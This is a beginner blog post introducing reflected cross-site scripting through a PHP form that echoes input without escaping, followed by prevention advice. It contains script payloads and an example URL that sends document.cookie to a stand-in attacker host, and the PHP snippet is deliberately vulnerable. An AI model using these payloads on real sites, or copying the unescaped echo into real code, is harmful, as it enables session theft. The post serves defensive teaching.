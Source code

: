 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


# Introduction
So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a simple form that I have written.

```PHP
<!DOCTYPE html>
<html>
<body>
		<h1>Simple PHP Form</h1>
		<form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
			Name: <input type="text" name="fname">
			<input type="submit">
		</form>
		<?php
			if ($_SERVER["REQUEST_METHOD"] == "GET") {
				echo "<p>Hi " . $_GET['fname'] . "!</p>";
			}
		?>
</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)

After typing my name in the input box, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking that all is well and good, but what if someone submits the following text as input.

```HTML
<b>Abhishek</b>
```

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

```HTML
<p>Hi <b>Abhishek</b>!</p>
```

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/inject-1.png)

When the browser looks at the HTML, it sees the `<b>` tag and thinks that text in between is supposed to be rendered bold. The ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we want to pass in javascript code in the text field. Let's try the following input.

```javascript
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/5.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/xss-1.png)

When the browser sees the `<script>` tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```javascript
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```javascript
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie
</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

# Well, how can we prevent the above attack? 
Some of the ways we can prevent XSS are:
Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, `<` is replaced with `&lt;`. This means that when the page is returned back to the user, the browser sees `&lt;`,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is provided by ModSecurity can be utilized (with care!).

Note that the above mechanisms serve as a base. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. In a later post, I will talk about Stored XSS. 